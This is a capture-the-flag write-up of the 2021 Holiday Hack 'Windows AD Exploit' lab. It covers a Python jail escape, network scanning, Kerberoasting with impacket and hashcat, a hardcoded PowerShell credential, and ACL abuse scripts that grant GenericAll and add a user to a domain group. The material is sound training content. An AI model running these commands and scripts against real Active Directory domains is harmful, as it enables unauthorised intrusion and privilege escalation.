


Windows AD Exploit¶
Talk: https://www.youtube.com/watch?v=iMh8FTzepU4
(https://register.elfu.org/register) 
We have to register in order to get an account. The email you enter doesn’t matter so let’s register and get the ssh credentials.
We connected in ssh on the server and we got stuck in a screen like this:

Looking at portal server we saw it was served by a Python backend, so to try to close the screensplash
we just replied to the question: “how do you get out of a python program?”
CTRL-D !!! and it worked :)
: Traceback (most recent call last):
File "/opt/grading_system", line 41, in <module>
main()
File "/opt/grading_system", line 26, in main
a = input(": ").lower().strip()
EOFError
>>> import os
>>> os.system('/bin/bash')
We gained a shell on the machine. ok .. the challenge can start ..
$ls -la
total 28
drwxr-x--- 3 fbsjgeyymg fbsjgeyymg 4096 Dec 29 16:58 .
drwxr-xr-x 1 root root 4096 Dec 29 17:03 ..
-rw-r--r-- 1 fbsjgeyymg fbsjgeyymg 220 Feb 25 2020 .bash_logout
-rw-r--r-- 1 fbsjgeyymg fbsjgeyymg 3771 Feb 25 2020 .bashrc
drwx------ 2 fbsjgeyymg fbsjgeyymg 4096 Dec 29 16:58 .cache
-rw-rw---- 1 fbsjgeyymg fbsjgeyymg 247 Dec 29 16:58 .grades
-rw-r--r-- 1 root root 0 Dec 29 16:57 .hushlogin
-rw-r--r-- 1 fbsjgeyymg fbsjgeyymg 807 Feb 25 2020 .profile
Nothing incredible here ..
Let’s look around in the network and get together some info gathering ..
$ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo
valid_lft forever preferred_lft forever
10: eth0@if11: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
valid_lft forever preferred_lft forever
Ok and there is a kindly nmap available, well
$nmap 172.17.0.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-29 17:26 UTC
Nmap scan report for 172.17.0.1
Host is up (0.00055s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
2222/tcp open EtherNetIP-1
Nmap scan report for grades.elfu.local (172.17.0.2)
Host is up (0.00058s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap scan report for 172.17.0.3
Host is up (0.00056s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
139/tcp open netbios-ssn
445/tcp open microsoft-ds
Nmap scan report for 172.17.0.4
Host is up (0.00061s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
139/tcp open netbios-ssn
445/tcp open microsoft-ds
Nmap scan report for 172.17.0.5
Host is up (0.00059s latency).
Not shown: 988 closed ports
PORT STATE SERVICE
42/tcp open nameserver
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
636/tcp open ldapssl
1024/tcp open kdm
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
smbclient failed, it seems we cannot connect to the shares from here.
$smbclient -L 172.17.0.5 -p 455
do_connect: Connection to 172.17.0.5 failed (Error NT_STATUS_CONNECTION_REFUSED)
the internal network¶
There are other networks then?
$route -n
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
0.0.0.0 172.17.0.1 0.0.0.0 UG 0 0 0 eth0
10.128.1.0 172.17.0.1 255.255.255.0 UG 0 0 0 eth0
10.128.2.0 172.17.0.1 255.255.255.0 UG 0 0 0 eth0
10.128.3.0 172.17.0.1 255.255.255.0 UG 0 0 0 eth0
172.17.0.0 0.0.0.0 255.255.0.0 U 0 0 0 eth0
Yep! We can reach 3 other internal networks from here.
10.128.1.0/24¶
$nmap 10.128.1.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-29 17:46 UTC
Nmap scan report for hhc21-windows-linux-docker.c.holidayhack2021.internal (10.128.1.4)
Host is up (0.0016s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
2222/tcp open EtherNetIP-1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-07 16:54 UTC
Nmap scan report for hhc21-windows-dc.c.holidayhack2021.internal (10.128.1.53)
Host is up (0.00060s latency).
Not shown: 988 filtered ports
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
3389/tcp open ms-wbt-server
There is a Domain Controller on 10.128.1.53
10.128.2.0/24¶
$nmap 10.128.2.0/24
long list of clients
...
10.128.3.0/24¶
There is a really interesting server on the third network too
$namp 10.128.3.30 -Pn
Nmap scan report for 10.128.3.30
Host is up (0.00080s latency).
Not shown: 966 closed ports
PORT STATE SERVICE
22/tcp open ssh
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
636/tcp open ldapssl
1024/tcp open kdm
1025/tcp open NFS-or-IIS
1026/tcp open LSA-or-nterm
1027/tcp open IIS
1028/tcp open unknown
1029/tcp open ms-lsa
1030/tcp open iad1
1031/tcp open iad2
1032/tcp open iad3
1033/tcp open netinfo
1034/tcp open zincite-a
1035/tcp open multidropper
1036/tcp open nsstp
1037/tcp open ams
1038/tcp open mtqp
1039/tcp open sbl
1040/tcp open netsaint
1041/tcp open danf-ak2
1042/tcp open afrog
1043/tcp open boinc
1044/tcp open dcutility
2222/tcp open EtherNetIP-1
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
rpcclient info¶
Let’s gather together some more info by using rpcclient
$rpcclient 10.128.3.30
Enter WORKGROUP\nrfcofddsg's password:
rpcclient $> querydominfo
Domain: ELFU
Server:
Comment:
Total Users: 494
Total Groups: 18
Total Aliases: 33
Sequence No: 0
Force Logoff: -1
Domain Server State: 0x0
Server Role: ROLE_DOMAIN_BDC
Unknown 3: 0x0
rpcclient $> srvinfo
SHARE30 Wk Sv PrQ Unx NT SNT Samba 4.3.11-Ubuntu
platform_id : 500
os version : 6.1
server type : 0x809a03
rpcclient $> enumdomains
name:[ELFU] idx:[0x0]
name:[BUILTIN] idx:[0x1]
$rpcclient 10.128.1.53
Enter WORKGROUP\nrfcofddsg's password:
rpcclient $> querydominfo
Domain: ELFU
Server:
Comment:
Total Users: 519
Total Groups: 0
Total Aliases: 10
Sequence No: 1
Force Logoff: -1
Domain Server State: 0x1
Server Role: ROLE_DOMAIN_PDC
Unknown 3: 0x1
rpcclient $> srvinfo
10.128.1.53 Wk Sv PDC Tim NT
platform_id : 500
os version : 10.0
server type : 0x80102b
smbclient¶
In a Windows network first thing to look for are for sure the shares. From a Linux box we can use the smbclient command to connect to windows shares
on 10.128.3.30
$smbclient -L 10.128.3.30 -p 445
Enter WORKGROUP\fbsjgeyymg's password:
Sharename Type Comment
--------- ---- -------
netlogon Disk
sysvol Disk
elfu_svc_shr Disk elfu_svc_shr
research_dep Disk research_dep
IPC$ IPC IPC Service (Samba 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
it could be useful to have an access to the elfu_svc_shr and research_dep shares.
let’s go back to the domain controller and see if we can obtain someuseful creds.
impacket¶
we have some docs here to read:
and we can use the script GetUserSPNs.py to find Service Principal Names that are associated with our user account and run it against the Domain Controller
$python3 GetUserSPNs.py -outputfile output.txt -dc-ip 10.128.1.53 ELFU.local/dcvcskikmq:'Gvogcgrrp@' -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
----------------------------------- -------- -------- -------------------------- --------- ----------
ldap/elfu_svc/elfu elfu_svc 2021-10-29 19:25:04.305279 <never>
ldap/elfu_svc/elfu.local elfu_svc 2021-10-29 19:25:04.305279 <never>
ldap/elfu_svc.elfu.local/elfu elfu_svc 2021-10-29 19:25:04.305279 <never>
ldap/elfu_svc.elfu.local/elfu.local elfu_svc 2021-10-29 19:25:04.305279 <never>
the script saved the hash of the service account found in the output.txt file.
Time to try to crack the hash.
Hashcat¶
taken from hints to build our hashcat rule:
Note
Hashcat Mangling Rules
From: Eve Snowshoes
(OneRuleToRuleThemAll.rule) is great for mangling when a password dictionary isn’t enough.
Now, time for some password cracking.
First we have to build up a password list. We use the awesome tool found in the hints, cewl, that is able to build a list
of possible password extracted from a site just by giving it the url.
$sudo apt-get install ruby
git clone https://github.com/digininja/CeWL.git
$sudo gem install nokogiri
./cewl.rb –with-numbers https://register.elfu.org/register > ch8_dict.txt
Once we have the worldlist we like, then ….. we are ready to crack it!
$hashcat64.bin -m 13100 -a 0 .\spns.txt -r rules\OneRuleToRuleThemAll.rule -o craccato.txt .\ch8_dict.txt -O
OUTPUT:
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$ELFU.local/elfu_svc*$aa5230518cc7587d7f56d14450a8………90b4c278c73c4975a:Snow2021!
So we know a share and we have a password .. let’s try it
smbclient again¶
$smbclient \\\\10.128.3.30\\elfu_svc_shr -U ELFU.local\\elfu_svc
Enter ELFU.LOCAL\elfu_svc's password:
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Thu Dec 2 16:39:42 2021
.. D 0 Wed Dec 29 08:01:30 2021
Get-NavArtifactUrl.ps1 N 2018 Wed Oct 27 19:12:43 2021
Get-WorkingDirectory.ps1 N 188 Wed Oct 27 19:12:43 2021
Stop-EtwTraceCapture.ps1 N 924 Wed Oct 27 19:12:43 2021
create-knownissue-function.ps1 N 2104 Wed Oct 27 19:12:43 2021
PsTestFunctions.ps1 N 52454 Wed Oct 27 19:12:43 2021
.......................
......................
There are a bunch of powershell scripts here.
Try to get them on the Linux box in order to grep them looking for some password or creds .. (I love grep!!!!)
An interesting feature of smbclient (found in samba docs)
is the tar option, allowing us to download in a single tar all the files.
$mkdir test && cd test
$smbclient \\\\10.128.3.30\\elfu_svc_shr -U ELFU.local\\elfu_svc -Tc ./test.tar *
$ls -l
total 1320
-rw-rw---- 1 iuwuvckfvi iuwuvckfvi 1348096 Dec 29 22:27 test.tar
Extract files from the tar archive.
$tar -xvf test.tar
./Get-NavArtifactUrl.ps1
./Get-WorkingDirectory.ps1
./Stop-EtwTraceCapture.ps1
./create-knownissue-function.ps1
........
Searching “SecureString” with grep ..
$grep SecureString *ps1
Nothing useful except the pass to get a letsencrypt certificate .. retry with
$grep -i passw *ps1
bingo ..
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
Powershell¶
Let’s run it in the powershell
$powershell
PowerShell 7.2.0-rc.1
Copyright (c) Microsoft Corporation.
https://aka.ms/powershell
Type 'help' to get help.
PS /home/iuwuvckfvi/test> $SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
PS /home/iuwuvckfvi/test> $aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
PS /home/iuwuvckfvi/test> $aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
PS /home/iuwuvckfvi/test> Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
NPM(K) PM(M) WS(M) CPU(s) Id SI ProcessName PSComputerName
------ ----- ----- ------ -- -- ----------- --------------
9 4.31 10.09 0.00 1496 0 conhost 10.128.1.53
9 6.52 12.20 0.05 7760 0 conhost 10.128.1.53
25 2.53 5.41 0.00 596 0 csrss 10.128.1.53
9 1.70 4.49 0.00 684 1 csrss 10.128.1.53
32 17.25 22.66 0.00 3884 0 dfsrs 10.128.1.53
12 2.52 7.71 0.00 2536 0 dfssvc 10.128.1.53
Using these exact credentials, we can try to Remote PowerShell into the Domain Controller (10.128.1.53)
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Enter-PSSession -ComputerName 10.128.1.53 -Credential $aCred -Authentication Negotiate
Now we have direct powershell access to that machine, and we have to try to insert our user (the one we created!) to a particular domain group, so that we can access Santa’s secret sleigh document.
ldapdomaindump¶
To get a better understanding of the global situation, we used ldapdomaindump, a tool that gives us a lot of informations about the Active Directory we are interested in using LDAP. We used elfu_svc account. It is already installed on the remote Linux installation.
$ldapdomaindump -u elfu.local\\elfu_svc -p Snow2021! 10.128.1.53
This outputs a series of files. We grabbed the .html files and opened them on our computers.
You can get a sample of them here: ch8_domain_users.html, ch8_domain_groups.html, ch8_domain_computers.html

In domain_groups.html we can see some groups that may be useful to us, like Domain Admins and Research Department. Let’s see what we can do to them. We could use one of the scripts provided to us by Chris Davis in his talk.
You could use the first script in the page, changing some values to match with our environment.
Attention
You have to run this in powershell! To enter it, just use the command “powershell”.
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
This list all users/groups who have some permissions regarding that specific object. In this case that is the Domain Admins group.
Unfortunately, there is nothing interesting in here.
All users we have compromised have not got any special permission in this group.
The Research Dep.¶
We can try to query the other group that could be considered interesting, Research Department, given the fact that we have to access a research document.
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
In the output we get this:
ActiveDirectoryRights : WriteDacl
InheritanceType : None
ObjectType : 00000000-0000-0000-0000-000000000000
InheritedObjectType : 00000000-0000-0000-0000-000000000000
ObjectFlags : None
AccessControlType : Allow
IdentityReference : ELFU\remote_elf
IsInherited : False
InheritanceFlags : None
PropagationFlags : None
Seems like the user “remote_elf” has the WriteDacl permission, which allows us to add/remove permissions for other users for this group. We can now proceed to use the second script provided to us to by Chris Davis.
Note
This script adds the GenericAll permission to a user of our choice. We should add it to the user generated by us.
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "YOUR_USERNAME_HERE"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
We can check if our action is successful with the commands we used before.
(iqulelyrfv is my username)
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
ActiveDirectoryRights : GenericAll
InheritanceType : None
ObjectType : 00000000-0000-0000-0000-000000000000
InheritedObjectType : 00000000-0000-0000-0000-000000000000
ObjectFlags : None
AccessControlType : Allow
IdentityReference : ELFU\iqulelyrfv
IsInherited : False
InheritanceFlags : None
PropagationFlags : None
It worked! Now that we have the permission to, we can add our user to that group, using the third script.
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "YOUR_USERNAME_HERE"
$password = "YOUR_PASSWORD_HERE"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
We can now access the research_dep share on 10.128.3.30
Warning
It could take up to five minutes for the changes to propagate.
Santa PDF finally!¶
$smbclient \\\\10.128.3.30\\research_dep -U ELFU.local\\iqulelyrfv
==> Enter Password
smb: \> dir
. D 0 Thu Dec 2 16:39:42 2021
.. D 0 Thu Dec 30 08:01:24 2021
SantaSecretToAWonderfulHolidaySeason.pdf N 173932 Thu Dec 2 16:38:26 2021
41089256 blocks of size 1024. 34704268 blocks available
smb: \> get SantaSecretToAWonderfulHolidaySeason.pdf
getting file \SantaSecretToAWonderfulHolidaySeason.pdf of size 173932 as SantaSecretToAWonderfulHolidaySeason.pdf
smb: \> exit
We have downloaded the file that we probably needed to access, SantaSecretToAWonderfulHolidaySeason.pdf
Transfer it to our computer, open it and the word requested by the challenge is Kindness.
Done :)